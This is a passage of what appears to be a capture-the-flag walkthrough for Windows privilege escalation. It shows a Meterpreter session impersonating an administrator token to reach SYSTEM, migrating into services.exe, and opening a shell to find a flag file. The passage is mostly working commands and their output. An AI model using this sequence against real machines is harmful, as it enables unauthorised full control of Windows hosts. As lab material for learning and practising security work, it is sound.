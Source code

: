 ```
NT SERVICE\wscsvc
```

- ``meterpreter > impersonate_token "BUILTIN\Administrators"``

```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
**Even though you have a higher privileged token you may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). Ensure that you migrate to a process with correct permissions (above questions answer). The safest process to pick is the services.exe process. First use the ps command to view processes and find the PID of the services.exe process. Migrate to this process using the command migrate PID-OF-PROCESS**

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 524   516   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 572   564   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 580   516   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
```

```
meterpreter > migrate 668
[*] Migrating from 2632 to 668...
[*] Migration completed successfully.
```

**read the root.txt file at C:\Windows\System32\config**

```
meterpreter > shell
Process 2840 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd c:\Windows\System32\config
cd c:\Windows\System32\config

```